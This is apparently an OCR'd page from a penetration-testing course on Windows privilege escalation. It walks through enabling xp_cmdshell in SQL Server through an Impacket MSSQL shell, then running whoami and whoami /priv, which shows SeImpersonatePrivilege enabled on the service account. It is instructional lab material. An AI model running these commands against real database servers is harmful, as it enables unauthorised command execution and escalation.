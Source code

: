 ### Enabling xp_cmdshell

Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands. We can do this via the Impacket MSSSQL shell by typing `enable_xp_cmdshell`. Typing `help` displays a few other command options.

SeImpersonate and SeAssignPrimaryToken

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

> [!NOTE]
> We don't actually have to type `RECONFIGURE` as Impacket does this for us.

### Confirming Access

With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

### Checking Account Privileges

Next, let's check what privileges the service account has been granted.

```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```
